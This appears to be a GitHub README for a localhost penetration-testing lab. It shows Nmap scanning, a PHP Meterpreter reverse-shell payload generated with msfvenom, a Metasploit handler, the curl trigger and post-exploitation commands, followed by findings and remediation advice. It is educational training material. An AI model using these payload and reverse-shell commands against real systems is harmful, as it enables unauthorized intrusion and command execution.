


# Full Internal Penetration Testing Lab Using Metasploit

## Overview

This project demonstrates a complete internal penetration testing simulation using Kali Linux and the Metasploit Framework inside a controlled lab environment.

The lab replicates a real-world Red Team engagement where reconnaissance, exploitation, Meterpreter session handling, post-exploitation, and professional reporting are performed against simulated vulnerable systems.

The objective of this project is to gain practical hands-on experience with offensive security tools and methodologies used by penetration testers and Red Team operators.

---

# Project Objectives

- Prepare a penetration testing environment using Kali Linux
- Simulate internal users and vulnerable services
- Perform reconnaissance using Nmap
- Generate Meterpreter payloads using msfvenom
- Exploit a vulnerable PHP web application
- Establish reverse shell access using Metasploit
- Conduct post-exploitation enumeration
- Document vulnerabilities professionally
- Practice Red Team methodologies

---

# Lab Environment

| Component | Description |
|---|---|
| Attacker Machine | Kali Linux Virtual Machine |
| Victim Users | victim, webuser |
| Vulnerable Service | PHP Upload Directory |
| Web Server | PHP Local Server |
| Echo Service | TCP Echo Service on Port 9003 |
| Meterpreter Listener | Port 4443 |

---

# Tools & Technologies Used

- Kali Linux
- Metasploit Framework
- Meterpreter
- msfvenom
- Nmap
- Netcat
- PHP
- Python

---

# Features

- Simulated internal network environment
- Custom vulnerable PHP web application
- Meterpreter reverse shell exploitation
- Network reconnaissance
- Post-exploitation activities
- Security findings documentation
- Real-world penetration testing workflow

---

# Methodology

The penetration testing process followed standard offensive security methodology:

1. Environment Preparation  
2. Victim Simulation  
3. Reconnaissance & Enumeration  
4. Vulnerability Identification  
5. Payload Generation  
6. Exploitation  
7. Meterpreter Session Handling  
8. Post-Exploitation  
9. Documentation & Reporting  

---

# Step-by-Step Workflow

# 1. Environment Preparation

Installed required penetration testing tools and dependencies.

```bash
sudo apt update
sudo apt install -y ruby-full nmap netcat-traditional iproute2 php
```

## Screenshot


---

# 2. Simulating Vulnerable Environment

Created simulated users and vulnerable PHP upload directory.

```bash
sudo adduser victim --disabled-password --gecos ""
sudo adduser webuser --disabled-password --gecos ""
```

## Screenshot



---

# 3. Running Fake Internal TCP Service

## 3.1 Create the Fake Server Script

Created a custom Python-based Echo service.

## Screenshot


---

## 3.2 Make it Executable and Run

```bash
sudo chmod +x /home/victim/fake_service.py
sudo -u victim nohup python3 /home/victim/fake_service.py &
```

## Screenshot


---

## 3.3 Test Service Behaviour

```bash
nc 127.0.0.1 9003
```

## Screenshot


---

# 4. Reconnaissance Using Nmap

Performed service discovery and enumeration.

```bash
nmap -p 22,8080,9003 127.0.0.1
```

### Open Ports Identified

| Port | Service |
|---|---|
| 22 | SSH |
| 8080 | PHP Web Server |
| 9003 | Echo TCP Service |

## Screenshot


---

# 5. Payload Generation

Generated a Meterpreter reverse shell payload using msfvenom.

```bash
msfvenom -p php/meterpreter/reverse_tcp \
LHOST=127.0.0.1 \
LPORT=4443 \
-f raw \
-o shell.php
```

## Screenshot


---

# 6. Metasploit Handler Setup

## 6.1 Start Metasploit

```bash
msfconsole
```

## Screenshot


---

## 6.2 Configure Multi Handler

```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4443
run
```

## Screenshot


---

# 7. Start PHP Web Server

```bash
sudo -u webuser php -S 127.0.0.1:8080 -t /home/webuser/web/uploads
```

## Screenshot


---

# 8. Exploitation

Triggered the vulnerable PHP payload.

```bash
curl http://127.0.0.1:8080/shell.php
```

Successfully established a Meterpreter session.

## Screenshot


---

# 9. Post-Exploitation

## 9.1 Meterpreter Enumeration

Executed Meterpreter commands:

```bash
sysinfo
getuid
ls
cat flag.txt
```

## Screenshot


---

## 9.2 Interactive Shell Access

```bash
shell
whoami
id
uname -a
```

## Screenshot


---

# Vulnerabilities Identified

# 1. Remote Code Execution (Critical)

| Attribute | Value |
|---|---|
| Severity | Critical |
| CVSS Score | 9.8 |
| CWE | CWE-434 |
| Vulnerability | Unrestricted File Upload |

### Impact

- Remote shell access
- Arbitrary command execution
- Data exposure
- Potential privilege escalation

---

# 2. Exposed Internal TCP Service (Medium)

| Attribute | Value |
|---|---|
| Severity | Medium |
| Port | 9003 |
| Service | Echo TCP Service |

### Impact

- Internal reconnaissance exposure
- Service fingerprinting
- Potential fuzzing target

---

# Cleanup

Stopped all services and removed simulated users.

## Screenshot



---

# Security Recommendations

- Disable PHP execution inside upload directories
- Validate uploaded file types
- Restrict internal services
- Apply least privilege permissions
- Harden PHP configurations
- Monitor suspicious network activity
- Deploy Web Application Firewall (WAF)

---

# Skills Demonstrated

- Penetration Testing
- Red Team Operations
- Metasploit Exploitation
- Meterpreter Usage
- Linux Enumeration
- Network Reconnaissance
- Vulnerability Assessment
- Security Documentation
- Post-Exploitation Analysis

---

# Files Included

| File | Description |
|---|---|
| fake_service.py | Simulated TCP Echo Service |
| setup_commands.txt | Full Lab Setup Commands |
| findings.md | Security Findings Report |
| penetration_testing_report.pdf | Detailed Professional Report |

---

# Disclaimer

This project was created strictly for educational and ethical cybersecurity training purposes inside a controlled lab environment.

Unauthorized use of these techniques against systems without permission is illegal.

---

# Author

## Nitin Sukthe

Cybersecurity Enthusiast | Penetration Testing | Cloud Security | Red & Blue Team Learning

---
